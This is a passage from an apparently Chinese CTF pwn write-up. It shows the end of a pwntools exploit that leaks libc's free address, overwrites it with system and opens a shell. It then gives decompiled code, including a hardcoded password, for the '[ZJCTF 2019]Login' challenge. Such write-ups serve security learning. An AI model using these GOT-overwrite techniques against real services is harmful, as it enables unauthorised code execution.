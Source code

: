 ```python
print(len(p32(elf.got['free'])))

Dis(1)

p.recvuntil("description: ")
free_addr = u32(p.recv(4))
print(hex(free_addr))

libc = LibcSearcher('free', free_addr)
libc_base = free_addr - libc.dump('free')
sys_addr = libc_base + libc.dump('system')

Upd(1, 0x4, p32(sys_addr))
Del(2)

p.interactive()

```

## 2.[ZJCTF 2019]Login

一道涨姿势的题目

将指针当函数执行

经过整理后得的的main

bug在bug函数

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void (*v3)(void); // rax
  const char *v4; // rbx
  const char *v5; // rax
  void (**v7)(void); // [rsp+10h] [rbp-130h] BYREF
  char v8[176]; // [rsp+20h] [rbp-120h] BYREF
  char v9[16]; // [rsp+D0h] [rbp-70h] BYREF
  char v10[64]; // [rsp+E0h] [rbp-60h] BYREF
  unsigned __int64 v11; // [rsp+128h] [rbp-18h]

  v11 = __readfsqword(0x28u);
  setbuf(stdout, 0LL);
  strcpy(v9, "2jctf_pa5sw0rd");
  memset(v10, 0, sizeof(v10));
  Admin::Admin((Admin *)v8, "admin", v9);
  puts(
    " _____   _  ____ _____ _____   _                _       \n"
    "|__  /  | |/ ___|_   _|  ___| | |    ___   __ _(_)_ __  \n"
    "  / /_  | | |     | | | |_    | |   / _ \\ / _` | | '_ \\ \n"
    " / /| |_| | |___  | | |  _|   | |__| (_) | (_| | | | | |\n"
    "/____\\___/ \\____| |_| |_|     |_____\\___/ \\__, |_|_| |_|\n"
    "                                          |___/         ");
  printf("Please enter username: ");
  User::read_name((User *)&login);
  printf("Please enter password: ");
  v3 = (void (*)(void))main::{lambda(void)#1}::operator void (*)(void)();
  v7 = (void (**)(void))check(v3);
  User::read_password((User *)&login);
  v4 = (const char *)User::get_password((User *)v8);
  v5 = (const char *)User::get_password((User *)&login);
  bug(&v7, v5, v4);
  return 0;
}
```